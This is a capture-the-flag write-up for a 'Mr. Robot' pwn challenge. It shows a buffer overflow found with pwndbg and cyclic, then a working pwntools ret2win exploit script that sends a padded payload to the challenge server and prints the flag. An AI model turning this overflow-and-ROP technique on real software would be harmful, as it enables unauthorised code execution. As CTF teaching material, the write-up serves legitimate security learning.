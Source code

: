 ```yaml
---
layout: writeup

title: Mr. Robot
difficulty: hard
points: 500
categories: [pwn]
tags: []

flag: CBCV{BuFf3r_0v3rF10W_1s_s1mpL3_9713}
---
```


### Mr. Robot

* Author: Aakansh Gupta (Unknown)


Classic Buffer Overflow CTF.
Connecting to the server through netcat gives:

```bash
┌──(kali㉿kali)-[~/Desktop/Cyscom/3]
└─$ nc 20.244.12.130 50001
Who is the leader of fsociety? 
Enter your answer > 

```

Any answer to this returns:
```bash
┌──(kali㉿kali)-[~/Desktop/Cyscom/3]
└─$ nc 20.244.12.130 50001
Who is the leader of fsociety? 
Enter your answer > Elliot Alderson
You aren't thinking straight Elliot!

```

We try to decompile the file using decompilers like gdb and check breakpoints after entering a huge value:

```bash
pwndbg> run
Starting program: /home/kali/Desktop/Cyscom/3/vuln 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Who is the leader of fsociety? 
Enter your answer > aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa  

Program received signal SIGSEGV, Segmentation fault.

```
Use this data to find the value overriden by the RIP register. Use ` cyclic -l 0x6161616b6161616a ` (for example only) to find offset vlaue with RIP register. 
Now find the ` win() ` function address within gdb using `print win `. Similarly, find the ret gadget using ` ROPgadget --binary ./vuln --only "ret" ` outside gdb.
We are using a `pwntools` exploit script to automatically run and get the flag from the server using the values we found.

```python
from pwn import *

context.arch = 'amd64'

offset = 72
win_address = 0x4011b6
ret_gadget = 0x401016

p = remote("20.244.12.130", 50001)

payload = b'A' * offset + p64(ret_gadget) + p64(win_address)

log.info(f"Payload: {payload}")

p.recvuntil(b'> ')
p.sendline(payload)

p.interactive()

```

Running the script produces the output as the required flag.
<img src="./images/mrobotflag.png" />


### The flag found is:
## CBCV{BuFf3r_0v3rF10W_1s_s1mpL3_9713}
